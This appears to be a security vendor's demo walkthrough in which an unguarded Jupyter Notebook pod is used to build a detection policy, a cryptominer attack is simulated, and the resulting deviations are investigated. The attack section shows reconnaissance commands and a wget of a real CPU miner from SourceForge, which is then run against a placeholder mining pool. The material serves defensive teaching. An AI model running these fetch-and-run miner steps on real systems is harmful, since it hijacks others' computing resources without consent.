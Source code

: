 # Cryptominer Scenario

> This Scenario is loosely based on the [Silent Bob container attack](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed).

## Setup

For this scenario, we have set up an unguarded Jupyter Notebook pod within the cluster. To start, let's see it in use, and create some "normal" activity that we will use later to generate a baseline fingerprint. After running the access script (`./access.sh`), you can reach the notebook from [localhost:1234](http://localhost:1234).

This is a standard Jupyter notebook, running the `jupyter/minimal-notebook` docker image. Select the Python 3 notebook, and run some commands in it:

```py
print("Hello world!")
```

```sh
!pip install --upgrade pip setuptools wheel
```

Spyderbat is using the activity we just created to define a "fingerprint" for this container. A container fingerprint tracks all of the processes and connections created in a container during normal operation and can be used to define [Guardian Policies](https://docs.spyderbat.com/concepts/guardian). These policies are used by Spyderbat to detect when anomalous activity occurs, either alerting you or even killing the pod in response, depending on the configuration.

Let's take a look at these fingerprints in the Spyderbat UI. Navigate to the Fingerprints page (listed under Guardian in the navigation sidebar). This page lists all of the fingerprints created by Spyderbat for your account, one for each image you have deployed. Using the search bar in the top right, search for "Jupyter" to narrow down the list. To narrow the scope further, we can select the "cryptominer" namespace and "active" status. From there, select the fingerprints that we want (the `minimal-notebook` image), and click "Create Policy" on the bottom bar.

This will open the Policy creation window, allowing you to preview the policy created from the selected fingerprints. If necessary, you could edit the processes and connections that were autogenerated here. For our purposes, the autogenerated data should be good enough, so select "Next". Give the policy a name, but leave it in audit mode for now. Audit mode means the policy will be tracked, but will not actually create any responses, allowing for testing.

![The policy creation screen](./policy_creation.png)

Let's test out the policy by running a new command that is not present in the policy. Navigate back to the Jupyter Notebook interface and open a new "terminal" tab instead of Python. This alone should be enough to be detected, but let's run `ls` just to make sure we have something to look for. It will take a minute or two for the data to appear in the console, but we can navigate to the Guardian Policies page while we are waiting.

This page shows all of the existing (container) policies in your account. Select "View" on the new policy to open the Policy management window. Here, you can see the existing policy as well as all of the detected deviations. It also allows for editing the policy, such as setting it to enforce mode or adding new processes and connections to the policy.

Navigate to the "Deviations" tab. If you do not already see a list of deviations, refresh the page to ensure you have the latest data. After selecting all of the deviations, your policy graph should look similar to the one below.

![The created policy, and our new deviations](./policy_graph.png)

Now that we know the policy works, let's put it in enforce mode. De-select the deviant processes, switch to the "Policy Info" tab, select "Enforcing", and click Save. Since we left the default actions enabled, this policy will not kill deviant pods, only create red flags for deviant processes and connections.

## Attack

Next, let's simulate a malicious use of the Jupyter Notebook. Switch back to the Jupyter Notebook terminal, and run some exploration commands:

```
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ id
uid=1000(jovyan) gid=100(users) groups=100(users)
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ sudo -l
[sudo] password for jovyan: 
Sorry, try again.
[sudo] password for jovyan:^C 
sudo: 1 incorrect password attempt
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ ping -n 3 sourceforge.net
bash: ping: command not found
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ curl sourceforge.net > /dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ 
```

Looks like we don't have sudo access, there aren't many tools (like ping), but we can connect to SourceForge. Luckily, that is all we need to install a crypto miner. First, we can check that there aren't already any crypto miners installed on this system (given how poor the security would be if this were truly deployed):

```sh
ps -aux
```

Looks like we are alone. So, we can now install the miner:

```sh
wget https://sourceforge.net/projects/cpuminer/files/pooler-cpuminer-2.5.1-linux-x86_64.tar.gz/download
tar -xzf download
./minerd --url fakeminingpool.example.com -u ME -p passwd
```

> Note: this is a real cryptominer, but is not configured to connect to a real service.

## Investigation

Now that we have executed the attack, let's go back to the policy deviations page. Select "View" on the policy, and add all of the deviations to the graph. Here, we can see all of the different commands and connections that did not fit into the existing fingerprint. 

![The new policy deviations](./attack_deviations.png)

Select "Start Process Investigation" on the bottom to see a more detailed view of the tracked deviations. Here, we can see a causal view of all of our attack actions within the container.

![A trace showing the executed attack](./attack_trace.png)

## Cleanup

To ensure that the flags generated by this policy don't interfere with the other demos, let's disable the Guardian policy. Navigate back to the Policies page, and view the policy. Turn off the "Enabled" switch in the Policy Info tab, and save the policy.

## Further Reading

- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)
- ['Silent Bob' Container Attack Exposed - Spyderbat Blog](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed)
